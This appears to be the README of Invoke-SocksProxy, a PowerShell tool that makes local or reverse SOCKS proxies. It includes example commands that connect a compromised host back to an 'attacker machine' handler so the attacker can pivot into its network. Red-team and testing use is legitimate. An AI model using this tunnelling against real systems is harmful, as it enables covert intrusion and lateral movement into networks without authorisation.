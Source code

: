 # Invoke-SocksProxy
Creates a local or "reverse" Socks proxy using powershell. The local proxy is a simple Socks 4/5 proxy.

The reverse proxy creates a tcp tunnel by initiating outbond SSL connections that can go through the system's proxy. The tunnel can then be used as a socks proxy on the remote host to pivot into the local host's network.

Merged the script from tokyoneon and from p3nt4 so it works. *Note* Firewall might be on high ports will most likely not work. Run the script, and copy the SHA1 cert fingerprint and past in the the script:
```
sudo python2.7 ReverseSocksProxyHandler.py
```

# Example
Connect back to ProxyHandler on attacker machine with certificate fingerprint.
```
Import-Module Invoke-SocksProxy.psm1
Invoke-ReverseSocksProxy -remotePort LPORT -remoteHost LHOST -certFingerprint 'CERT_FINGERPRINT'
```
